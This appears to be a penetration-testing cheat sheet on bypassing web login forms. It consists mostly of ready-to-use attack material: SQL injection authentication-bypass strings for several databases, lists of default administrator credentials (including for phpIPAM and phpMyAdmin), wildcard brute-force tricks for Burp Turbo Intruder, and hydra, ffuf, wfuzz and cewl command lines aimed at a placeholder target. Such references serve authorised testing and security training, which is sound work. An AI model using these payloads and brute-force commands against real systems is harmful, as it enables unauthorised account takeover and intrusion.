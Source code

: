 ```yaml
---
title: Web Login Bypass
desc: 
tags: [Burp, Ffuf, Hydra, Login, Password, SQLi, Web, Wfuzz]
alts: [Web-Basic-Pentesting, Web-Content-Discovery]
render_with_liquid: false
---
```


## SQL Injections

```
admin' or '1'='1
```

- **Microsoft, Oracle, PostgreSQL**

    ```
    admin'--
    admin' or 1=1--
    ```

- **MySQL**

    ```
    admin'-- [need to add space after '--']
    admin'#
    admin' or 1=1#
    ```

- **Mongo**

    ```
    admin' || 1==1//
    admin' || 1==1%00
    admin' || '1==1
    ```

<br />

## Default Credentials

```sh
admin:admin
admin:password
admin:password1
admin:password123
administrator:password
administrator:password1
administrator:password123

# phpIPAM
admin:ipamadmin
Admin:ipamadmin

# PHPMyAdmin
root:(null)
root:password
```

<br />

## Wildcard Brute Force

If it is allowed to login with wildcard (*), you may be able to find the username/password with brute force.

```bash
username = *
password = *
```

For example, in Turbo Intruder (Burp Suite), login attempt with alpha numeric characters one by one.

```bash
username=%s*&password=*
# or
username=*&password=%s*
```

My favorite wordlist for it is the seclists:  
[https://github.com/danielmiessler/SecLists/blob/master/Fuzzing/alphanum-case-extra.txt](https://github.com/danielmiessler/SecLists/blob/master/Fuzzing/alphanum-case-extra.txt){:target="_blank"}

<br />

## Brute Force Credentials

1. **Prepare Wordlists**

    - **Rockyou**

        It is often located in **"/usr/share/wordlists/rockyou.txt"** in Linux.

    - **[SecLists](https://github.com/danielmiessler/SecLists){:target="_blank"}**

        It is often located in **"/usr/share/seclists"** in Linux.

    - **[CeWL](https://github.com/digininja/CeWL){:target="_blank"}**

        Generate the custom wordlist from the target web page.
    
        ```sh
        cewl https://vulnerable.com > scraped_words.txt
        ```

2. **Brute Force using Tools**

    - **Ffuf**

        ```sh
        # -fc: Filter HTTP status code
        ffuf -w passwords -X POST -d "username=admin&password=FUZZ" -u http://vulnerable.com/login -fc 401
        ```

    - **Hydra**

        ```sh
        # Cracking username
        hydra -L usernames.txt -p password vulnerable.com http-post-form "/login:username=^USER^&password=^PASS^:Invalid username"
        # Cracking password
        hydra -l username -P passwords.txt vulnerable.com http-post-form "/login:username=^USER^&password=^PASS^:Invalid password"

        # HTTPS (https-post-form)
        hydra -L usernames.txt -P passwords.txt vulnerable.com https-post-form "/login:username=^USER^&password=^PASS^:Username or password is incorrect"

        
        # Cracking the Authorization or WWW-Authenticate in the request header.
        hydra -L usernames.txt -P passwords.txt <target-ip> http-get
        ```

    - **Wfuzz**

        ```sh
        # Cracking username
        wfuzz -z file,./usernames.txt -d "username=FUZZ&password=password" https://vulnerable.com/login
        # Cracking password
        wfuzz -z file,./passwords.txt -d "username=admin&password=FUZZ" https://vulnerable.com/login

        # -- Options --------------------------------------------------------------------------------------------

        # --hc: Hide the specific status code
        wfuzz -z file,./usernames.txt -d "username=FUZZ&password=password" --hc 302 http://vulnerable.com/login
        # --hh: Hide the specific chars (Content-Length)
        wfuzz -z file,./passwords.txt -d "username=admin&password=FUZZ" --hh 783 http://vulnerable.com/login

        # --sc: Show the specific statuc code
        wfuzz -z file,./usernames.txt -d "username=FUZZ&password=password" --sc 302 http://vulnerable.com/login
        # --sh: Show the specific chars (Content-Length)
        wfuzz -z file,./passwords.txt -d "username=admin&password=FUZZ" --sh 1214 http://vulnerable.com/login
        ```